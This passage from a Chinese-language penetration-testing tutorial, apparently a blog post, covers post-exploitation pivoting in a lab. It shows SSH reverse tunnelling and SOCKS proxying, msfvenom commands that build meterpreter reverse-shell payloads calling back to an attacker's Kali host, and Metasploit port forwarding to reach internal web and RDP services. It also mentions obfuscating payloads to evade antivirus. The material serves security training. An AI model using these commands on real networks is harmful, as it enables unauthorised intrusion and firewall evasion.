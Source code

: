 可看到通过正向连接访问到了内网服务器 dayu-test.php 页面，回显数据表明连接成功。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIOe3DUibdS4ia0PobPBzPpGwDrF1I9VNHXBmSyWic0zFkE0dHMWtcsCjTVQ/640?wx_fmt=png)

**2、ssh 反向连接**

命令如下，内网服务器和 kali 是无法通讯的，利用 ssh 反向代理将本地 22 端口数据量映射到 8888 端口上。

```
ssh -qTfnN -R 8888:127.0.0.1:22  kali@192.168.175.145
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIO9v8UMSuG1s4bAfjZWYt9dl8RBQLfyP4xjUYp48jQ4rJzQibIIVgz9Xw/640?wx_fmt=png)

反向代理这里不建议用，但是也和大家讲解下，主要作用在于通过公网的主机打通穿透两个不相通的局域网。这里能跳过防火墙限制，但是会话只要一中断就再也连接不上了。

**3、ssh 开启 sockes 代理**

这种方法是 SSH 隧道中最暴力的方法，直接通过配置浏览器、proxychan、Proxifier 等等，配置它们的 sockes5 后就可以直接使用代理流量上网了，对于 VPS 较实用。

```
ssh -D 端口 user@theserver
```

**0x04 端口转发**

这里讲解的是利用 metaspolit 进行端口转发和映射。利用 msfvenom 生成 shell，然后 base64 等方法混淆加密免杀上传，反弹回 kali-MSF。免杀跳过，后期会讲解~ 这是站在前言基础上，拿到了乌班图的 shell。  

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.175.145 LPORT=1037 -f elf > dayu.elf
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.175.145 lport=1037 -f elf -o shell
```

‍

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIO6lWWATIHjOyYD5Hrce4VIHUlMWdgtiaF1k0LAYvD02ZALrpP8A2JnNw/640?wx_fmt=png)

**1、端口映射**

```
portfwd list     #查看列表
portfwd flush    #清空列表
portfwd add -L 192.168.175.145 -l 8089 -p 80 -r 10.10.1.6
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIOVd5zGmibAPcNDDibEqI5L3r6E3ENeDmaS2sY7KARJZbXnJkic0RNbLQlQ/640?wx_fmt=png)

可看到成功将内网服务器的 10.10.1.6 的 80 端口映射到了本地 kali 的 8089 端口上。通过本地访问 8089 端口可以直接访问到内网服务器 80 页面，这是一种思路，在内网服务器存在不同服务可以提权的情况下，都可以转发~

这里用得比较多的还是利用 msf 的 EXP 拿 shell 后，继续后渗透~

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIOLNYp5MyGUIqk9aKqUryPHmDBaZPMsuHBbFiaoq8B8XibvkHAP0ZS2tjA/640?wx_fmt=png)

**2、端口转发**

端口转发到本地是在特殊情况下，或者在 shell 上无法更好的执行，或者需要远程到对方桌面上去进行进一步的操作等等，这里介绍了 MSF 端口转发到 3389 上，进行远程登录。

```
portfwd add -l 5555 -p 3389 -r 192.168.175.153
rdesktop 127.1.1.0:8090
```
